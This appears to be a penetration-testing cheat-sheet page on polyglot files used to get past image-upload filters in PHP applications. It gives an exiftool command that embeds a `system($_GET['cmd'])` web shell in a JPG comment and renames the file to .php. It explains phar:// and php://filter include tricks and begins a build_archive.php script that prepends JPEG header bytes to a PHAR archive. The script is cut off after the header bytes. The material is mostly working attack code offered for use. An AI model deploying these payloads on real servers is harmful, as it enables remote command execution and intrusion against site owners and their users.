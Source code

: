 #### JPG x PHP

> You can hide a php script in the jpg comments

```bash
exiftool -command='<?php echo system($_GET["cmd"]); ?>' pic.jpg
mv pic.jpg pic.php
```

#### JPG x PHAR `include()`

> PHAR files work like ZIP files, when you can use the `phar://` to access files stored inside them.
> Here is a way to bypass `.jpg` upload when you can `include(phar://custom.jpg/test.txt)`


> [!NOTE] Access
> - Using `include('phar://foobar.jpg/text.txt')` wrapper
> - Using `include('php://filter/resource=phar://archive.jpg/text.txt')` wrapper

> [!NOTES] PHAR format specifications
> - **Stub section** : the stub is a chunk of PHP code which is executed when the file is accessed in an executable context. At a minimum, the stub must contain `__HALT_COMPILER();` at its conclusion.
> - **Manifest :** Contains metadata about the archive
> - **File contents :** Contains actual files in the archive
> - **Signature (optional) :** for verifying archive integrity

> As the stub section as no specification else than end with `__HALT_COMPILER();` we can start the file with anything we want such as `.jpg` headers !

`build_archive.php`
```php
<?php

 $jpeg_header_size =
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";
```